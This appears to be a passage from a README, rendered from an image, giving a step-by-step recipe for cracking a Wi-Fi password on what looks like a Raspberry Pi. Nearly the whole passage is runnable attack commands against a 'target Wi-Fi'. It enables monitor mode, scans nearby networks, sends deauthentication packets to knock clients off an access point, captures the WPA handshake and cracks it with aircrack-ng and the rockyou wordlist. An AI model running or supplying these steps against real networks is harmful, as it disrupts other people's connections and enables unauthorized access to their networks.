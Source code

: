    And make new firmware
    
    ```bash
    sudo cp /lib/firmware/brcm/brcmfmac43436s-sdio.bin /lib/firmware/brcm/brcmfmac43436s-sdio.bin.bak
    sudo cp /lib/firmware/brcm/brcmfmac43436s-sdio.txt /lib/firmware/brcm/brcmfmac43436s-sdio.txt.bak
    sudo ln -sf /lib/firmware/brcm/brcmfmac43430-sdio.bin /lib/firmware/brcm/brcmfmac43436s-sdio.bin
    sudo ln -sf /lib/firmware/brcm/brcmfmac43430-sdio.txt /lib/firmware/brcm/brcmfmac43436s-sdio.txt
    ```
    
    And then reboot
    
    ```bash
    sudo reboot
    ```
4. Active new monitor mode interface:
    ```bash
    sudo iw phy `iw dev wlan0 info | gawk '/wiphy/ {printf "phy" $2}'` interface add mon0 type monitor
    ```
5. check about actived new interface
    ```bash
    iwconfig
    ```
6. there are two command to scan nearby Wi-Fi below:
    ```bash
    sudo aireplay-ng -9 mon0
    sudo airodump-ng mon0
    ```
7. After scanned the nearby Wi-Fi, record your target Wi-Fi BSSID and channel
8. capture packet
    ```bash
    sudo airodump-ng -c 7 --bssid B0:BE:76:CD:97:24 -w capture mon0
    ```
    * modify `7` into your target Wi-Fi channel number
    * modify `B0:BE:76:CD:97:24` into your target Wi-Fi BSSID
9. make Wi-Fi clients reconnect AP for capture handshake
    ```bash
    sudo aireplay-ng --deauth 10 -a B0:BE:76:CD:97:24 mon0
    ```
10. checking number of handshake packet (need more then 1)
    ```bash
    sudo aircrack-ng capture-01.cap
    ```
11. cracking Wi-Fi password
    ```bash
    sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b B0:BE:76:CD:97:24 capture-01.cap
    ```
12. successful crack Wi-Fi password
